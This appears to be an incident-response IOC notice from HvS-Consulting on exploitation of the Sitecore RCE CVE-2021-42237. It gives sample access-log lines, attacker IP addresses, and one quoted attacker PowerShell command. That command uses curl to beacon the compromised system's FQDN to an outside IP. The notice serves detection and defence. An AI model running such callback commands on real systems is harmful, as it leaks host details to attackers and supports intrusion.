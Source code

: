 # SiteCore CVE-2021-42237 exploitation IOCs
- Last update: 26.11.2021
- Author: HvS-Consulting AG

## Context
- We found those IOCs during incident response in November 2021. One of the analyzed systems was compromised via the SiteCore RCE CVE-2021-42237 (SiteCore Security Bulletin SC2021-003-499266). The vulnerability is located within the `/sitecore/shell/ClientBin/Reporting/Report.ashx` file. The access logs on affected systems might show similarities to following log lines:

    ```
    YYYY-MM-DD HH:mm:ss SYSTEM-IP POST /sitecore/shell/ClientBin/Reporting/Report.ashx - 443 - 209.58.185.232 python-requests/2.26.0 - 200 0 0 761
    YYYY-MM-DD HH:mm:ss SYSTEM-IP POST /sitecore/shell/ClientBin/Reporting/Report.ashx - 443 - 45.133.181.252 python-requests/2.26.0 - 200 0 0 1179
    YYYY-MM-DD HH:mm:ss SYSTEM-IP POST /sitecore/shell/ClientBin/Reporting/Report.ashx - 443 - 45.133.181.252 python-requests/2.26.0 - 200 0 0 1502
    ```
    Initial probes of the attacker did spawn a PowerShell process that performs a simple back connect including the FQDN of the system:
    ```
    powershell -c curl http://139[.]180[.]147[.]174:55505/?asfkj12fasf=https://FQDN
    ```

## Notes & Disclaimer
- Even if we try to avoid false positives by manual QA, those rules are not meant to be used in production without previous dry runs.

## References
- https://support.sitecore.com/kb?id=kb_article_view&sysparm_article=KB1000776
- https://blog.assetnote.io/2021/11/02/sitecore-rce/